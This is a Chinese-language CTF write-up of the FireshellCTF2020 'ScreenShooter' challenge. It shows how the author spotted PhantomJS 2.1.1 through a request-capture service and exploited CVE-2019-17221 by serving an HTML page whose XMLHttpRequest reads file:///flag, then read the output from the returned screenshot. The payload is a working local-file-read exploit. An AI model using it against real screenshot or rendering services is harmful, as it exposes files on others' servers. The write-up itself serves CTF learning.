


# \[FireshellCTF2020]ScreenShooter

## \[FireshellCTF2020]ScreenShooter

## 考点

* `PhantomJS` 2.1.1任意文件读取漏洞
* SSRF

## wp

只有一个功能点，对输入的URL进行访问，然后返回截图。

比如输入百度的URL就会返回它的截图




既然是访问了这个URL，那就生成个URL让它访问，看一下返回的信息

在 https://beeceptor.com/ 上生成一个临时域名，让这个题目访问，可以看到访问的请求头

 (1) (1).png>)

```
  "user-agent": "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1",
```

可以看到用的是`PhantomJS`

`PhantomJS` 2.1.1是有任意文件读取漏洞的，CVE-2019-17221。可以使用`XMLHttpRequest`和`file://`去读取本地文件，利用方式如下

1.在自己服务器上放个index.html，内容如下

```html
<!DOCTYPE html>
<html>
<head>
<title>3webdogs</title>
</head>
<body>
<script>
flag=new XMLHttpRequest;
flag.onload=function(){
    document.write(this.responseText)
};
flag.open("GET","file:///flag");
flag.send();
</script>
</body>
</html>
```

2.让题目访问 http://服务器地址/index.html 即可



最后用OCR识别一下就行了

## 小结

1. 关注CVE
